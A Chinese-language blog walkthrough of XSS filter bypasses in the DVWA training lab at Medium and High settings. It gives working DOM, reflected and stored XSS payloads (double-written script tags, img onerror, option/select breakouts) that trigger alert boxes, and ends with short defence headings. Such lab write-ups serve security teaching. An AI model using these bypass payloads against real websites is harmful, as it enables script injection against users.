



XSS绕过进阶
# XSS 绕过进阶
讲述 XSS 绕过。
# DVWA-Medium
本章节使用 DVWA-Medium 安全难度
# XSS DOM
首先， GET 请求， default 可控，我们不妨尝试：
<script>alert()</script> |

没有弹框， URL 被自动换回 default=English
尝试 img 标签
http://127.0.0.1/DVWA/vulnerabilities/xss_d/?default=<img> |
img 标签没有被替换回去，能用
http://127.0.0.1/DVWA/vulnerabilities/xss_d/?default=<img src=1 onerror=alert()> |
但没有弹框
我们只好查看源码：
发现这里已经变成了 option value 的值，也就是字符串，所以我们需要令其逃逸出来。
逃逸需要考虑两点：
- 需要在执行完增加
German选项后执行【原因是如果在中间插入img标签会导致无用】 img标签需要放在option和select标签外面，否则会不起作用
我们需要使用 Chrome 进行单步调试到这一步
然后在控制台 Console 中输入
var lang = "</option></select><img src=1 onerror=alert()>"; |
点击运行
成功弹框
# XSS Reflected
输入 111，回显

尝试 XSS
http://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<script>alert()</script> |
发现前面的 <script> 整个被吃掉
尝试双写
http://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<scscriptript>alert()</script> |
没有被吃掉，我们猜想是不是连同尖括号一起吃呢？
http://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<sc<script>ript>alert()</script> |
当然，这个题还可以使用 img 标签
http://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=1<img src=1 onerror=alert()> |
# XSS Stored
我们尝试输入
查看源码
发现， Name 中 img 标签没有过滤，那么我们就可以构造
<img src=1 onerror=alert()> |

成功弹框
# DVWA-High
开启 High 难度
# XSS DOM
依旧是调试源码。
等到运行到 German 时，敲入：
var lang = "</option></select><img src=1 onerror=alert()>"; |
就可以令 img 标签语句插入到这里
放行运行，成功弹窗

# XSS Reflected
script 标签用不了，尝试使用 img 标签
http://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<img src=1 onerror=alert()> |
# XSS Stored
修改 Name 的最大输入长度为 100
输入：
即可弹窗
# XSS 防御
# 客户端打补丁、升级、NoScript 等扩展功能
# HttpOnly
# 输入 / 输出检查

本博客所有文章除特别声明外，均采用 CC BY-NC-SA 4.0 许可协议。转载请注明来自 My Violet Eva Garden！